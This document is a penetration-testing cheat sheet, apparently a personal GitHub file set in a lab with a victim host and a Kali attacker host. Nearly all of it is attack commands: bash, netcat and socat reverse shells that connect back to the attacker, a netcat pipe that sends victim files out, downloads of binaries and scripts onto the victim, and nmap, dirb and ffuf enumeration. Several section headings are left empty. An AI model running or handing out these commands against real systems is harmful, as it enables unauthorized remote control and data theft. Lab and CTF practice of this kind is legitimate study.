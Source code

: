 # CheatSheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

## Useful Commands

### Create web server

#### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

#### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

#### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

#### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

#### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

#### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

#### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

#### Listener

```
nc -lvp 4444
```

## Enumeration

#### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

#### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

#### FuFF

VHOST Discovery

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
